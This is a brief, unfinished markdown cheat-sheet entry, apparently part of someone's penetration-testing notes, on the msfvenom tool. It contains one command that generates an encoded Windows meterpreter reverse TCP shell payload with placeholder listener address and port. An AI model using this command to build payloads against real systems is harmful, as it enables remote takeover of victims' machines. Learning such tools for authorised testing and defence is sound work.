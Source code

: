 # Msfvenom
Tool combining ```msfpayload``` and ```msfencode``` <br/>
*As far as i know it's uses mainly to generate various reverse shell*<br/>
Here are the one i used:<br/>
* ```msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<listening_local_IP> LPORT=<listening_local_port> -f <format> -o <output_file.format>```<br/>


__TO COMPLETE__
